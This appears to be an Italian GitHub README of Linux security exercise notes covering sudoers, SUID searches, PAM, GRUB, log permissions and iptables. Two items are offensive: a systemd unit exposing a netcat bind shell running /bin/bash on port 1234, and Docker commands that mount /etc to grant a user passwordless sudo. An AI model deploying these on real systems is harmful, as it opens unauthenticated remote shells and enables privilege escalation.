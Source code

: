 # useful-links-cysec
- [here document](https://thelinuxcode.com/what-is-cat-eof-bash-script/)
- [regex cheatsheet](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular_expressions/Cheatsheet)
- [sed guide](https://www.gnu.org/software/sed/manual/sed.html)
----
- Configura sudo affinchè un utente possa eseguire solo un comando specifico (e.s: nmap)
  - ```bash
    #/etc/sudoers.d/buonhobo

    buonhobo ALL = /usr/bin/nmap
    ```
  - [sudoers guide](https://www.digitalocean.com/community/tutorials/how-to-edit-the-sudoers-file)
- Configura sudo affinchè un utente possa eseguire solo un comando specifico ma senza un parametro (e.s: si puo eseguire nmap ma non nmap -p). Nota: si possono mettere espressioni regolari nel file sudoers
  - ```bash
    #/etc/sudoers.d/buonhobo

    buonhobo ALL = /usr/bin/nmap, !/usr/bin/nmap -p
    ```
  - [sudoers regex](https://www.sudo.ws/posts/2022/03/sudo-1.9.10-using-regular-expressions-in-the-sudoers-file/)
- Cercare tutti gli eseguibili con SUID
  - ```bash
    find / -perm -4000 -type f -ls
    ```
  - ```bash
    find / -perm -u=s -type f -ls
    ```
  - [find cheatsheet](https://cheat.sh/find)
- Cercare tutti gli eseguibili con GUID
  - ```bash
    find / -perm -2000 -type f -ls
    ```
  - ```bash
    find / -perm -g=s -type f -ls
    ```
- Creare uno unit file di Systemd per permettere una shell aperta a tutti sulla rete (netcat in modalità listen con il processo /bin/bash) e provare a connettersi dalla propria macchina usando netcat
  - ```bash
    #/etc/systemd/system/netcat.service

    [Unit]
    Description=Netcat shell

    [Service]
    # connect using `nc localhost 1234`
    ExecStart=/bin/nc -l -p 1234 -e /bin/bash

    [Install]
    WantedBy=default.target
    ```
  - [systemd arch wiki](https://wiki.archlinux.org/title/Systemd#Writing_unit_files)
  - [systemd manual](https://www.freedesktop.org/software/systemd/man/latest/systemd.unit.html)
- Installare e configurare un modulo PAM per richiedere caratteristiche minime alla password (min 8 caratteri, maiuscole, minuscole e simboli)
  - ```bash
    #/etc/pam.d/common-password <- per forza qui, il file esiste già e va modificato con sed

    #...
    password requisite pam_pwquality.so retry=3 minlen=8 ucredit=-1 lcredit=-1 dcredit=-1 ocredit=-1
    #...
    ```
  - [pam guide](https://www.tecmint.com/configure-pam-in-centos-ubuntu-linux/)
  - [cracklib guide](https://linux.die.net/man/8/pam_cracklib)
- Imposta una password a GRUB così da non permettere l'avvio del sistema operativo con parametri del kernel non standard
  - ```bash
    # This sets a superuser root with password ciao
    password=ciao
    hash=$(echo -e "$password\n$password" | grub-mkpasswd-pbkdf2 | awk '/grub/ {print $NF}')
    cat << EOF >> /etc/grub.d/40_custom

    set superusers='root'
    password_pbkdf2 root $hash
    EOF

    # This makes the boot entry unrestricted
    # So that the password is only needed for changing it
    # And not for booting the system
    sed -i '0,/^CLASS="/ {//s/"$/ --unrestricted"/}' /etc/grub.d/10_linux

    # This applies the changes
    sudo update-grub
    ```
    - [stack overflow question](https://superuser.com/questions/488275/grub-2-password-protection-in-debian)
- Rendi la cartella /var/log leggibile solo da root
  - ```bash
    # I permessi diventano rwx--x--x
    # Questo permette agli altri di accedere ai file dentro /var/log se hanno il permesso
    # Ma non permette di vedere i file dentro /var/log
    chmod 711 /var/log
    # Si può mettere 700 per dare permesso solo a root
    # E si può usare -R per modificare ricorsivamente i permessi
    ```
- Configura un utente per poter fare cat dei logs ma non essere amministratore (va configurato sudoers in modo opportuno)
  - ```bash
    #/etc/sudoers.d/buonhobo

    # This allows running cat inside /var/log but does not allow using .. to access other directories
    buonhobo ALL = /usr/bin/cat ^/var/log/.+$, !/usr/bin/cat ^/var/log/.*(\.\.).*$
    ```
- Trova tutti i processi che hanno un file descriptor aperto dentro la cartella /var/log (il comando lsof tornerà comodo)
  - ```bash
    lsof +D /var/log
    ```
- Usa docker per effettuare un privilege escalation
  - ```bash
    # This adds buonhobo to sudo group
    docker run -v /etc:/ciao alpine sh -c "sed '/sudo/s/[a-z,]*$/buonhobo/' -i /ciao/group"

    # This lets buonhobo use sudo for everything with no password
    docker run -v /etc:/ciao alpine sh -c "echo 'buonhobo ALL=(ALL) NOPASSWD: ALL' >> /ciao/sudoers"
    ```
- Cercare se esiste un qualche file all'interno della home di un utente che sia scrivibile da tutti gli utenti
  - ```bash
    find /home/ -type f -perm -o=w
    ```
- Cercare se esiste una cartella all'interno della home di un utente che sia scrivibile da tutti gli utenti
  - ```bash
    find /home/ -type d -perm -o=w
    ```
- Creare un utente con la password che scade ogni giorno
  - ```bash
    # This creates a user with a password that expires every day
    sudo useradd -m buonhobo
    chage -M 1 buonhobo
    ```
  - [chage cheatsheet](https://cheat.sh/chage)
  - [/etc/shadow manual](https://linux.die.net/man/5/shadow)
----
Per tutta la roba iptables basta consultare il [manuale](https://linux.die.net/man/8/iptables) e la [guida di DigitalOcean](https://www.digitalocean.com/community/tutorials/iptables-essentials-common-firewall-rules-and-commands).
Meglio ricordarsi quando si è in ssh di permettere le connessioni ESTABLISHED e RELATED per non venire disconnessi.

- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22)
- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22) dall'IP 1.2.3.4 e ad un webserver da qualunque IP (TCP port 80 e 443)
- Imposta Iptables affinchè sia bloccato tutto il traffico Internet sulla macchina (gli utenti non possono navigare) ma sia funzionante il webserver (TCP port 80 e 443)
- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22) e ad un webserver (TCP port 80 e 443)
